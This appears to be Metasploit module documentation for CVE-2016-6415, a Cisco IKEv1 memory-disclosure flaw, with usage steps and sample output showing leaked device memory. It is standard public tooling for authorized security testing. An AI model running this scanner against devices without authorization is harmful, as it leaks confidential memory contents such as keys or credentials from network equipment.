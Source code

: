 This module is for CVE-2016-6415, A vulnerability in Internet Key Exchange version 1 (IKEv1) packet processing code in Cisco IOS, Cisco IOS XE, and Cisco IOS XR Software could allow an unauthenticated, remote attacker to retrieve memory contents, which could lead to the disclosure of confidential information.

The vulnerability is due to insufficient condition checks in the part of the code that handles IKEv1 security negotiation requests. An attacker could exploit this vulnerability by sending a crafted IKEv1 packet to an affected device configured to accept IKEv1 security negotiation requests. A successful exploit could allow the attacker to retrieve memory contents, which could lead to the disclosure of confidential information.

## Verification Steps

1. Do: ```use auxiliary/scanner/ike/cisco_ike_benigncertain```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Sample Output

```
msf auxiliary(cisco_ike_benigncertain) > show options

Module options (auxiliary/scanner/ike/cisco_ike_benigncertain):

   Name        Current Setting                                                                            Required  Description
   ----        ---------------                                                                            --------  -----------
   PACKETFILE  /opt/metasploit-framework/data/exploits/cve-2016-6415/sendpacket.raw                       yes       The ISAKMP packet file
   RHOSTS      192.168.1.2                                                                                yes       The target address range or CIDR identifier
   RPORT       500                                                                                        yes       The target port
   THREADS     1                                                                                          yes       The number of concurrent threads

msf auxiliary(cisco_ike_benigncertain) > set verbose True
msf auxiliary(cisco_ike_benigncertain) > run

[*] Printable info leaked:
>5..).........9.................................................................x...D.#..............+#.........\.....?.L...l...........h.............#.....................l...\...........l.....X.................a.#...R....X.....y#.........x...@V$.\.............X.<....X................W....._y>..#t... .....H...X.....W.......................................>.$...........>5..).............................!.....:3.K......X.............xV4.xV4.xV4.......................................X...........X.:3.KxV4.xV4.................$...m;......xV4.xV4.xV4.xV4.xV4.xV4.xV4.xV4...........!.....<<<<........................................................................................................................................................<<<<....................$...............................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................<<<<1.......................................<<<<....9....... .......d....................Q..........<<<<....9....... ...............(............Q..........<<<<........................CI................................................................................ab_cdefg_pool...................................................................................................................................................................................ozhu7vp...........................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................
[+] 192.168.1.2:500 - IKE response with leak
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
